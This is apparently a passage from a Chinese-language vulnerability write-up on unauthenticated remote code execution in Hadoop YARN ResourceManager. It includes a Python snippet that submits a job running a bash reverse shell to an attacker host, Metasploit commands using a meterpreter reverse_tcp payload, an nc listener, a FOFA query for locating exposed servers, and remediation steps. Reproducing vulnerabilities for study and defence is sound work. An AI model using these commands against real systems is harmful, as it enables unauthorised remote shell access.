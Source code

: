 ```python
        'commands': {'command': f'/bin/bash -i >& /dev/tcp/{lhost}/5566 0>&1'}
    },
    'application-type': 'YARN',
}
requests.post(url, json=data)
```

*b.模块利用*

```sh
msfconsole -q
use exploit/linux/http/hadoop_unauth_exec
set rhosts 192.168.81.127
set payload linux/x64/meterpreter/reverse_tcp
set lhost 192.168.81.238
set lport 5566
exploit
```

##### 3）漏洞复现

访问 http://ip:8088 即可看到 Hadoop YARN ResourceManager WebUI 页面（未授权访问漏洞）

a.监听端口等待shell反弹

`nc -lvvp 9999`

b.调用 New Application API 创建Application

POST请求http://ip://8088/ws/v1/cluster/apps/new-application，创建Application

4）漏洞发现

- fofa语句
  
  `app=APACHE-hadoop-YARN`
- poc批量检测
  
  向http://ip:port/ws/v1/cluster/apps/new-application 发送POST请求，如果响应返回application-id，则表明存在漏洞

5）修复漏洞

a.关闭Hadoop Web管理页面

b.开启身份验证，防止未经授权用户访问

c.设置“安全组”访问控制策略，将Hadoop默认开放的多个端口对公网全部静止或限制可信任的IP地址才能访问包括8088以及WebUI等相关端口
